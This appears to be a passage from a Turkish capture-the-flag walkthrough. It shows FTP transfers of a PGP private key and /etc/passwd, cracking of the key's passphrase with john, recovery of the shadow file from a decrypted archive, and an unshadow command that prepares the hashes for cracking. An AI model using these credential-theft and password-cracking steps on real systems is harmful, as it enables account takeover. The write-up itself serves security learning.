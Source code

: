 ```bash
229 Entering Extended Passive Mode (|||34931|)
150 Opening BINARY mode data connection for private.asc (3762 bytes).
100% |***********************************************************************|  3762        3.66 MiB/s    00:00 ETA
226 Transfer complete.
3762 bytes received in 00:00 (39.91 KiB/s)
ftp> 

```
---

Arşivden elde ettiğimiz dosyalardan biri private.asc adlı bir PGP özel anahtarıydı.
Bu anahtarı kullanabilmek için önce john aracıyla kırılabilir hale getirmek amacıyla uygun formata dönüştürdük. Ardından parola kırma işlemini gerçekleştirdik ve başarılı bir şekilde anahtarın şifresini çözdük.
Elde ettiğimiz şifre sayesinde, elimizdeki şifreli .gpg dosyasını başarıyla açmayı başardık.

<img width="1803" height="901" alt="root" src="https://github.com/user-attachments/assets/f4a619e0-22ef-486b-a35d-7dd79c8bdea0" />

---

Şifreli .gpg dosyasını açtıktan sonra, içerisinde sistemin shadow dosyasının yer aldığını fark ettik ve bu dosyayı kaydettik.
Ayrıca, FTP servisi üzerinden /etc/passwd dosyasına da erişebildiğimizi gördük ve bu dosyayı da lokal sistemimize indirerek parola kırma işlemleri için gerekli tüm verileri toplamış olduk.

```bash
ftp> cd /etc
250 Directory successfully changed.
ftp> get passwd
local: passwd remote: passwd
229 Entering Extended Passive Mode (|||43658|)
150 Opening BINARY mode data connection for passwd (1524 bytes).
100% |***********************************************************************|  1524       16.14 MiB/s    00:00 ETA
226 Transfer complete.
1524 bytes received in 00:00 (16.79 KiB/s)
ftp> 
```

---

Ardından, aşağıdaki komutu kullanarak passwd ve shadow dosyalarını birleştirip, john aracının anlayabileceği uygun formata dönüştürdük:
```bash
unshadow passwd shadow > kir.txt
```
Bu şekilde oluşturduğumuz hash.txt dosyasını john ile parola kırma işlemine hazır hale getirdik.

---

Hazırladığımız kir.txt dosyasını john aracına vererek parola kırma işlemini başlattık.
john, sistemdeki kullanıcıya ait parola hash’ini analiz ederek kısa süre içinde şifreyi başarılı bir şekilde kırdı.
